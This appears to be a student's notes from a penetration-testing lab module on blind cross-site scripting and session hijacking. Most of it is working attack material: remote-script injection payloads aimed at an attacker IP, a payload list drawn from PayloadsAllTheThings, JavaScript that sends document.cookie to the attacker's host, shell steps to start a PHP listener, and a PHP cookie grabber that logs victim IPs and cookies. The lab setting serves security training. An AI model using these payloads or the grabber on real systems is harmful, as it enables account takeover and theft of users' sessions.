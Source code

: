 Modern web applications utilize cookies to maintain a user's session throughout different browsing sessions. This enables the user to only log in once and keep their logged-in session alive even if they visit the same website at another time or date. However, if a malicious user obtains the cookie data from the victim's browser, they may be able to gain logged-in access with the victim's user without knowing their credentials.

With the ability to execute JavaScript code on the victim's browser, we may be able to collect their cookies and send them to our server to hijack their logged-in session by performing a `Session Hijacking` (aka `Cookie Stealing`) attack.

>`Blind XSS` vulnerability. A Blind XSS vulnerability occurs when the vulnerability is triggered on a page we don't have access to.


Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header

(`/hijacking`)

In normal (i.e., non-blind) cases, we can test each field until we get an `alert` box, like what we've been doing throughout the module.

as we do not have access over the Admin panel in this case, `how would we be able to detect an XSS vulnerability if we cannot see how the output is handled?`

use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.


However, this introduces two issues:

1. `How can we know which specific field is vulnerable?` Since any of the fields may execute our code, we can't know which of them did.
2. `How can we know what XSS payload to use?` Since the page may be vulnerable, but the payload may not work?


## Loading a Remote Script

## Loading a Remote Script
```html
<script src="http://OUR_IP/script.js"></script>
```
execute a remote JavaScript file that is served on our VM
```html
<script src="http://OUR_IP/username"></script>
```
We can change the requested script name from `script.js` to the name of the field we are injecting in
If we get a request for `/username`, then we know that the `username` field is vulnerable to XSS, and so on

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://10.10.15.92/script.js></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
As we can see, various payloads start with an injection like `'>`, which may or may not work depending on how our input is handled in the backend


>As previously mentioned in the `XSS Discovery` section, if we had access to the source code (i.e., in a DOM XSS), it would be possible to precisely write the required payload for a successful injection
This is why Blind XSS has a higher success rate with DOM XSS type of vulnerabilities.


```shell-session
AhmaDb0x@htb[/htb]$ mkdir /tmp/tmpserver
AhmaDb0x@htb[/htb]$ cd /tmp/tmpserver
AhmaDb0x@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Now we can start testing these payloads one by one by using one of them for all of input fields and appending the name of the field after our IP, as mentioned earlier, like:



```html
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

>Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test

Once we submit the form, we wait a few seconds and check our terminal to see if anything called our server. If nothing calls our server, then we can proceed to the next payload, and so on. Once we receive a call to our server, we should note the last XSS payload we used as a working payload and note the input field name that called our server as the vulnerable input field.


## Session Hijacking
Once we find a working XSS payload and have identified the vulnerable input field, we can proceed to XSS exploitation and perform a Session Hijacking attack.

>It requires a JavaScript payload to send us the required data and a PHP script hosted on our server to grab and parse the transmitted data.

There are multiple JavaScript payloads we can use to grab the session cookie and send it to us, as shown by [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc):
```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://10.10.15.92/index.php?c='+document.cookie;
```

Using any of the two payloads should work in sending us a cookie, but we'll use the second one, as it simply adds an image to the page, which may not be very malicious looking, while the first navigates to our cookie grabber PHP page, which may look suspicious.

`script.js`:
We can write any of these JavaScript payloads to `script.js`, which will be hosted on our VM as well:\
```javascript
new Image().src='http://10.10.15.92/index.php?c='+document.cookie;
```
the payload:
```html
<script src=http://10.10.15.92/script.js></script>
```


```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

